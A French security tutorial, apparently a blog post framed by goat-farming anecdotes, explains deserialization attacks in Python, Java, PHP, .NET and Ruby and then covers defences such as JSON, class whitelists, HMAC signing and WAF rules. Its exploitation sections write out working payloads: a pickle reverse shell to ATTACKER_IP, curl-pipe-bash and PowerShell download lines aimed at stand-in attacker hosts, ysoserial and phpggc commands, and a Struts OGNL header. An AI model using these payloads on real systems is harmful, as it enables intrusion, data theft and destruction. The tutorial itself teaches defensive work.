



# Deserialization attacks : quand vos données deviennent du code exécutable

## Ou comment j'ai transformé un fichier de configuration en cauchemar de sécurité

Il y a quelques années, je développais un système de gestion pour mon élevage de chèvres. Oui, encore les chèvres. Elles sont au centre de tout dans ma vie, que ce soit voulu ou non.

J'avais besoin de sauvegarder des configurations complexes : l'historique de santé de chaque chèvre, leurs préférences alimentaires (oui, elles en ont), leurs relations sociales (Ragnar déteste Lagertha, mais tolère Bjorn). J'ai pensé : "Parfait, je vais sérialiser tout ça !"

Pour les non-initiés : la sérialisation, c'est transformer des objets en mémoire en une chaîne de caractères qu'on peut sauvegarder dans un fichier ou envoyer sur le réseau. La désérialisation, c'est l'inverse : reconstruire les objets à partir de cette chaîne.

Simple. Élégant. Et potentiellement catastrophique.

Un jour, en testant, j'ai modifié à la main un fichier sérialisé. Juste pour voir. Le programme a planté. Puis a supprimé une base de données de test. Puis a essayé d'exécuter du code système.

C'est là que j'ai compris : la désérialisation, c'est comme ouvrir un colis sans vérifier ce qu'il contient. Ça peut être un cadeau. Ou une bombe.

Bienvenue dans le monde terrifiant des attaques par désérialisation, où vos données innocentes peuvent se transformer en commandes shell.

## La sérialisation : un concept puissant mais dangereux

### Qu'est-ce que la sérialisation ?

La sérialisation transforme des objets complexes en format transportable :



**Exemple Python** :

```python
import pickle

# Objet complexe
goat_data = {
    'name': 'Ragnar',
    'age': 3,
    'preferences': ['foin', 'carottes'],
    'enemies': ['Lagertha']
}

# Sérialisation
serialized = pickle.dumps(goat_data)
print(serialized)
# b'\x80\x04\x95...' (bytes)

# Désérialisation
deserialized = pickle.loads(serialized)
print(deserialized)
# {'name': 'Ragnar', 'age': 3, ...}
```

**Le problème** : Si vous désérialisez des données venant d'une source non fiable, vous exécutez potentiellement du code malveillant.

### Pourquoi c'est dangereux ?

La désérialisation ne fait pas que recréer des données. Elle peut :
1. **Instancier des classes**
2. **Appeler des méthodes**
3. **Exécuter du code**



**Un attaquant peut** :
- Créer des objets qui exécutent des commandes
- Modifier la logique de l'application
- Lire/écrire des fichiers
- Obtenir un shell sur le serveur

## Les formats concernés

### Python : Pickle (le pire)

```python
import pickle
import os

class Evil:
    def __reduce__(self):
        # __reduce__ est appelé lors de la sérialisation
        # Mais AUSSI lors de la désérialisation pour reconstruire l'objet
        return (os.system, ('echo "Hacked!" > /tmp/hacked.txt',))

# Créer le payload malveillant
payload = pickle.dumps(Evil())

# Sauvegarder
with open('malicious.pkl', 'wb') as f:
    f.write(payload)

# Plus tard, quelqu'un désérialise...
with open('malicious.pkl', 'rb') as f:
    data = pickle.load(f)  # ← BOOM ! Code exécuté
```

**Résultat** : Le fichier `/tmp/hacked.txt` est créé. Mais ça pourrait être :
```python
return (os.system, ('rm -rf /important_data',))  # Supprimer des données
return (os.system, ('curl http://attacker.com/shell.sh | bash',))  # Shell inversé
```

### Java : Serialization (très répandu)

```java
import java.io.*;

public class EvilObject implements Serializable {
    private void readObject(ObjectInputStream in) throws Exception {
        // readObject est appelé pendant la désérialisation
        Runtime.getRuntime().exec("calc.exe");  // Ouvre la calculatrice (PoC)
        // Ou pire :
        // Runtime.getRuntime().exec("powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://evil.com/shell.ps1')\"");
    }
}

// Sérialiser
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(new EvilObject());
byte[] payload = bos.toByteArray();

// Désérialiser (victime)
ByteArrayInputStream bis = new ByteArrayInputStream(payload);
ObjectInputStream ois = new ObjectInputStream(bis);
Object obj = ois.readObject();  // ← Calc.exe s'ouvre
```

**Cas réel** : Apache Commons Collections (CVE-2015-4852)
- Vulnérabilité dans une bibliothèque Java courante
- Permettait RCE via désérialisation
- Affectait des milliers d'applications

### PHP : unserialize()

```php
<?php
class Evil {
    public $cmd = 'whoami';
    
    function __destruct() {
        // __destruct est appelé quand l'objet est détruit
        system($this->cmd);
    }
}

// Sérialiser
$obj = new Evil();
$serialized = serialize($obj);
echo $serialized;
// O:4:"Evil":1:{s:3:"cmd";s:6:"whoami";}

// Désérialiser (vulnérable)
$unserialized = unserialize($serialized);
// ← Exécute 'whoami'
?>
```

**Modifier le payload** :

```php
// Payload malveillant
$payload = 'O:4:"Evil":1:{s:3:"cmd";s:23:"cat /etc/passwd > /tmp/pwned";}';

unserialize($payload);  // ← Exécute la commande
```

### .NET : BinaryFormatter

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

[Serializable]
public class Evil : ISerializable {
    public void GetObjectData(SerializationInfo info, StreamingContext context) {
        info.SetType(typeof(System.Diagnostics.Process));
        info.AddValue("StartInfo", new System.Diagnostics.ProcessStartInfo("calc.exe"));
    }
}

// Sérialiser
BinaryFormatter formatter = new BinaryFormatter();
using (FileStream fs = new FileStream("evil.bin", FileMode.Create)) {
    formatter.Serialize(fs, new Evil());
}

// Désérialiser (victime)
using (FileStream fs = new FileStream("evil.bin", FileMode.Open)) {
    object obj = formatter.Deserialize(fs);  // ← Calc.exe
}
```

## Exploitation pratique

### Payload Python : Reverse Shell

```python
#!/usr/bin/env python3
"""
Créer un payload pickle pour reverse shell
"""

import pickle
import os
import base64

class ReverseShell:
    def __reduce__(self):
        cmd = (
            "python3 -c 'import socket,subprocess,os;"
            "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
            "s.connect((\"ATTACKER_IP\",4444));"
            "os.dup2(s.fileno(),0);"
            "os.dup2(s.fileno(),1);"
            "os.dup2(s.fileno(),2);"
            "subprocess.call([\"/bin/sh\",\"-i\"])'"
        )
        return (os.system, (cmd,))

# Créer le payload
payload = pickle.dumps(ReverseShell())

# Encoder en base64 pour transport
payload_b64 = base64.b64encode(payload).decode()

print("[+] Payload généré !")
print(f"[+] Taille: {len(payload)} bytes")
print(f"[+] Base64: {payload_b64}")

# Sauvegarder
with open('reverse_shell.pkl', 'wb') as f:
    f.write(payload)

print("[+] Payload sauvegardé dans reverse_shell.pkl")
print("\n[*] Sur votre machine attaquante, lancez:")
print("    nc -lvnp 4444")
print("\n[*] Puis faites désérialiser le payload par la victime")
```

**Utilisation** :

```bash
# 1. Générer le payload
python3 generate_pickle_payload.py

# 2. Sur votre machine attaquante
nc -lvnp 4444

# 3. La victime désérialise
python3 -c "import pickle; pickle.load(open('reverse_shell.pkl', 'rb'))"

# 4. Vous obtenez un shell !
```

### Outil : ysoserial (Java)

Outil de génération de payloads Java :

```bash
# Télécharger ysoserial
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar

# Générer un payload
java -jar ysoserial-all.jar CommonsCollections1 'calc.exe' > payload.ser

# Envoyer à l'application vulnérable
curl -X POST http://vulnerable-app.com/endpoint \
  --data-binary @payload.ser \
  -H "Content-Type: application/x-java-serialized-object"
```

**Payloads disponibles** :
```bash
# Lister tous les payloads
java -jar ysoserial-all.jar

# Populaires :
# - CommonsCollections1-7
# - Spring1-2
# - ROME
# - Jdk7u21
# etc.
```

### Exploitation PHP : phpggc

```bash
# Installer phpggc
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# Lister les gadgets disponibles
./phpggc -l

# Générer un payload Laravel RCE
./phpggc Laravel/RCE1 system "id" -b

# Résultat : payload base64
# Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3Rpbm...

# Utiliser dans une requête
curl http://vulnerable.com/unserialize.php \
  -d "data=Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3Rpbm..."
```

### Détection : Identifier la désérialisation

**Signes dans les requêtes HTTP** :

```
Content-Type: application/x-java-serialized-object
Content-Type: application/x-php-serialized

# Données qui ressemblent à :
# Java : rO0AB (base64 de 0xaced)
# PHP : O:4:"User":2:{...}
# Python pickle : \x80\x03c (base64: gANj...)
```

**Avec Burp Suite** :

```
1. Intercepter les requêtes
2. Chercher les patterns de sérialisation
3. Decoder base64
4. Identifier le format
5. Générer payload avec ysoserial/phpggc
6. Remplacer et tester
```

## Cas réels et vulnérabilités célèbres

### Apache Struts (Equifax breach 2017)



**Ce qui s'est passé** :
- Header `Content-Type` malveillant avec payload sérialisé
- Struts désérialisait sans validation
- Attaquant a obtenu un shell
- Accès à toute la base de données pendant des mois

**Payload simplifié** :
```bash
# Header malveillant
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

### Jenkins (CVE-2017-1000353)

```java
// Vulnérabilité dans le protocole Jenkins CLI
// Désérialisation Java sans validation

// Payload (simplifié)
byte[] payload = ysoserial.generate("CommonsCollections1", "calc.exe");

// Envoyer au serveur Jenkins
Socket s = new Socket("jenkins.server.com", 50000);
OutputStream os = s.getOutputStream();
os.write(payload);
```

**Impact** : RCE sur n'importe quel serveur Jenkins non patché.

### Ruby on Rails (CVE-2013-0156)

```ruby
# Rails désérialisait XML/YAML non fiables
# Payload YAML malveillant :

payload = <<-YAML
--- !ruby/object:Gem::Installer
i: x
--- !ruby/object:Gem::SpecFetcher
i: y
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source
    current_user_id: 1
  - !ruby/string:Gem::Package::TarReader::Entry
    read: 0
    header: "abc"
  - !ruby/string
    str: |
      `whoami > /tmp/pwned`
YAML

# POST à /api/endpoint avec Content-Type: application/xml
```

## Se protéger : les bonnes pratiques

### 1. Ne JAMAIS désérialiser de données non fiables

```python
# ❌ DANGEREUX
import pickle
user_data = request.get('data')  # Vient de l'utilisateur
obj = pickle.loads(user_data)  # ← DANGER

# ✅ SAFE : utiliser JSON
import json
user_data = request.get('data')
obj = json.loads(user_data)  # ← JSON ne peut pas exécuter du code
```

**Règle d'or** : Si les données viennent d'un utilisateur ou du réseau, NE PAS utiliser :
- Python : `pickle.loads()`
- Java : `ObjectInputStream.readObject()`
- PHP : `unserialize()`
- .NET : `BinaryFormatter.Deserialize()`

### 2. Utiliser des formats sûrs

```python
# ❌ Pickle (dangereux)
import pickle
data = pickle.dumps(obj)

# ✅ JSON (sûr)
import json
data = json.dumps(obj)

# ✅ MessagePack (sûr et efficace)
import msgpack
data = msgpack.packb(obj)
```

**Comparaison** :

```python
import pickle
import json
import msgpack

goat = {'name': 'Ragnar', 'age': 3, 'weight': 45.5}

# Pickle : 73 bytes, DANGEREUX
pickle_data = pickle.dumps(goat)

# JSON : 46 bytes, SÛR
json_data = json.dumps(goat)

# MessagePack : 32 bytes, SÛR et COMPACT
msgpack_data = msgpack.packb(goat)
```

### 3. Whitelist de classes (si désérialisation nécessaire)

**Java** :

```java
import java.io.*;

public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> ALLOWED_CLASSES = new HashSet<>(Arrays.asList(
        "com.example.SafeClass1",
        "com.example.SafeClass2"
    ));
    
    public SafeObjectInputStream(InputStream in) throws IOException {
        super(in);
    }
    
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        if (!ALLOWED_CLASSES.contains(desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
        }
        return super.resolveClass(desc);
    }
}

// Utilisation
SafeObjectInputStream ois = new SafeObjectInputStream(new FileInputStream("data.ser"));
Object obj = ois.readObject();  // ← Seulement classes autorisées
```

**Python** :

```python
import pickle
import io

class SafeUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Whitelist de classes autorisées
        if module == "myapp.models" and name in ["GoatData", "FarmData"]:
            return super().find_class(module, name)
        raise pickle.UnpicklingError(f"Classe non autorisée: {module}.{name}")

# Utilisation
with open('data.pkl', 'rb') as f:
    unpickler = SafeUnpickler(f)
    data = unpickler.load()  # ← Seulement classes whitelistées
```

### 4. Signature et validation

```python
import hmac
import hashlib
import pickle

SECRET_KEY = b'your-secret-key-here-keep-it-safe'

def serialize_safe(obj):
    """Sérialiser avec signature"""
    data = pickle.dumps(obj)
    signature = hmac.new(SECRET_KEY, data, hashlib.sha256).digest()
    return signature + data

def deserialize_safe(signed_data):
    """Désérialiser après vérification de signature"""
    signature = signed_data[:32]  # SHA256 = 32 bytes
    data = signed_data[32:]
    
    # Vérifier la signature
    expected_signature = hmac.new(SECRET_KEY, data, hashlib.sha256).digest()
    
    if not hmac.compare_digest(signature, expected_signature):
        raise ValueError("Signature invalide - données altérées")
    
    return pickle.loads(data)

# Utilisation
original = {'name': 'Ragnar', 'age': 3}
signed = serialize_safe(original)

# Si quelqu'un modifie signed, la désérialisation échoue
restored = deserialize_safe(signed)
```

### 5. Alternatives modernes

**Protocol Buffers (protobuf)** :

```python
# Définir le schéma (goat.proto)
# syntax = "proto3";
# 
# message Goat {
#   string name = 1;
#   int32 age = 2;
#   float weight = 3;
# }

import goat_pb2

# Sérialiser
goat = goat_pb2.Goat()
goat.name = "Ragnar"
goat.age = 3
goat.weight = 45.5

serialized = goat.SerializeToString()

# Désérialiser
new_goat = goat_pb2.Goat()
new_goat.ParseFromString(serialized)

# ✅ Pas d'exécution de code possible
```

**Apache Avro** :

```python
import avro.schema
import avro.io
import io

# Définir le schéma
schema = avro.schema.parse('''
{
    "type": "record",
    "name": "Goat",
    "fields": [
        {"name": "name", "type": "string"},
        {"name": "age", "type": "int"},
        {"name": "weight", "type": "float"}
    ]
}
''')

# Sérialiser
writer = avro.io.DatumWriter(schema)
bytes_writer = io.BytesIO()
encoder = avro.io.BinaryEncoder(bytes_writer)
writer.write({"name": "Ragnar", "age": 3, "weight": 45.5}, encoder)

# ✅ Format structuré, pas d'exécution de code
```

### 6. WAF et détection

**Règles ModSecurity** :

```apache
# Détecter les tentatives de désérialisation Java
SecRule REQUEST_BODY "@rx rO0AB" \
    "id:1001,\
    phase:2,\
    deny,\
    status:403,\
    msg:'Java serialization detected'"

# Détecter pickle Python
SecRule REQUEST_BODY "@rx \x80[\x03\x04]" \
    "id:1002,\
    phase:2,\
    deny,\
    status:403,\
    msg:'Python pickle detected'"
```

**IDS/IPS Signatures** :

```python
# Script de détection
import re

def detect_serialization(data):
    """Détecter des patterns de sérialisation"""
    patterns = {
        'Java': rb'\xac\xed\x00\x05',  # Magic bytes Java
        'Python Pickle': rb'\x80[\x03\x04]',
        'PHP': rb'O:\d+:"',
        '.NET': rb'\x00\x01\x00\x00\x00\xff\xff\xff\xff'
    }
    
    detected = []
    for name, pattern in patterns.items():
        if re.search(pattern, data):
            detected.append(name)
    
    return detected

# Utilisation dans un proxy/WAF
request_body = get_request_body()
threats = detect_serialization(request_body)

if threats:
    log_alert(f"Serialization detected: {threats}")
    block_request()
```

## L'analogie finale avec les chèvres

La désérialisation, c'est comme recevoir un colis d'un inconnu.

Un jour, j'ai reçu un "cadeau" pour mes chèvres. Le colis disait "Friandises pour chèvres". Sans réfléchir, j'ai ouvert et donné le contenu à mes chèvres.

Résultat : Ragnar a eu une diarrhée explosive pendant 3 jours. Le "cadeau" contenait des aliments qu'elle ne pouvait pas digérer.

Ce jour-là, j'ai appris à :
1. **Vérifier l'expéditeur** (whitelist de classes)
2. **Inspecter le contenu** (validation)
3. **Ne jamais faire confiance aveuglément** (ne pas désérialiser de données non fiables)

La désérialisation, c'est pareil :
- **Le colis** = les données sérialisées
- **"Friandises pour chèvres"** = les métadonnées qui semblent légitimes
- **Le contenu toxique** = le code malveillant caché
- **Ragnar malade** = votre serveur compromis

Maintenant, je n'accepte plus de colis d'inconnus pour mes chèvres. Et je ne désérialise plus de données d'inconnus non plus.

Les deux peuvent être empoisonnés. Les deux peuvent causer des dégâts. Et dans les deux cas, mieux vaut prévenir que guérir.

Ragnar a survécu. Mon serveur aussi, après que j'ai appris ma leçon.

## Ce qu'il faut retenir

La désérialisation est dangereuse parce qu'elle transforme des DONNÉES en CODE. C'est la porte ouverte à l'exécution de code arbitraire.

**Pourquoi c'est dangereux** :
- Les formats comme pickle, Java serialization peuvent exécuter du code
- Les attaquants peuvent créer des objets malveillants
- Impact : RCE (Remote Code Execution) = game over

**Pour se protéger** :
1. **JSON à la place** de pickle/serialize autant que possible
2. **Whitelist de classes** si désérialisation nécessaire
3. **Signature HMAC** pour valider l'intégrité
4. **Formats modernes** : Protobuf, Avro, MessagePack
5. **WAF/IDS** pour détecter les tentatives

**Pour attaquer (éthiquement)** :
1. Identifier les endpoints qui désérialisent
2. Générer payload avec ysoserial/phpggc
3. Tester sur environnement de lab
4. Documenter et rapporter

**L'essentiel** :
- Ne JAMAIS désérialiser de données non fiables
- Toujours préférer JSON aux formats natifs
- Si impossible, implémenter whitelist + validation

## Conclusion

Les attaques par désérialisation sont parmi les plus dévastatrices et les moins comprises. Équifax l'a appris à ses dépens. 147 millions de personnes aussi.

Ce qui me fascine (et me terrifie), c'est la subtilité. On ne parle pas d'une injection SQL évidente ou d'un buffer overflow flagrant. On parle de transformer des données légitimes en arme.

C'est élégant. C'est terrifiant. C'est exactement le genre de vulnérabilité qui passe inaperçue jusqu'à ce qu'il soit trop tard.

Depuis mon "incident" avec le système de gestion de chèvres (qui aurait pu mal tourner), j'ai appris :

1. **La paresse est dangereuse** - "Je vais juste utiliser pickle, c'est plus simple" est la phrase avant une catastrophe.

2. **La compatibilité a un prix** - Les formats natifs (pickle, Java serialization) sont pratiques mais dangereux.

3. **JSON n'est pas sexy mais est sûr** - Parfois, le choix ennuyeux est le bon choix.

Aujourd'hui, mon code suit une règle simple : **Si ça vient de l'extérieur, JSON uniquement.**

Pas d'exception. Pas de "juste pour cette fois". Pas de "mais c'est plus efficace".

Parce que la désérialisation non sécurisée, c'est comme accepter des colis d'inconnus pour vos chèvres. Ça finit rarement bien.

Et je préfère mes chèvres en bonne santé et mes serveurs non compromis.

---

*PS : Ragnar s'est remise de son incident alimentaire. Elle est maintenant encore plus méfiante envers les colis inconnus. Elle devrait donner des cours de sécurité.*

*PPS : Si vous utilisez pickle.loads() sur des données utilisateur en production, arrêtez tout et refactorisez. Maintenant. Ce n'est pas une suggestion, c'est un ordre. De la part de quelqu'un qui a failli apprendre à ses dépens.*

*PPPS : Le "cadeau" pour mes chèvres ? C'était mon voisin qui essayait d'être gentil. Il ne savait pas que certaines friandises ne convenaient pas. Intention pure, résultat catastrophique. Exactement comme un développeur qui utilise pickle "parce que c'est pratique" sans comprendre les implications de sécurité.*
